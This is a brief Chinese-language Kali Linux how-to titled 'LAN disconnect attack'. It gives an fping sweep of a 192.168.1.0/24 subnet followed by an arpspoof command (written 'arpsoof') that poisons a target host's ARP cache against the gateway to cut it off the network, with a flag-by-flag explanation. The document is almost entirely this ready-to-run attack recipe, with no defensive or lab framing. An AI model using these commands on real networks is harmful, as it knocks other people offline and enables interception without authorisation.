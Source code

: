  tag: kali



# 局域网断网攻击

>欺骗

1. 查看联网设备数

   ```
   fping -asg 192.168.1.1/24
   ```

2. 攻击

   ```
   arpsoof -i eth0 -t 192.168.1.181 192.168.1.1
   ```

   arpspoof命令
   后面接上与网络有关的-i（interface）
   网卡eth0
   目标-t（target）
   目标IP：192.168.1.181
   目标主机网关192.168.1.1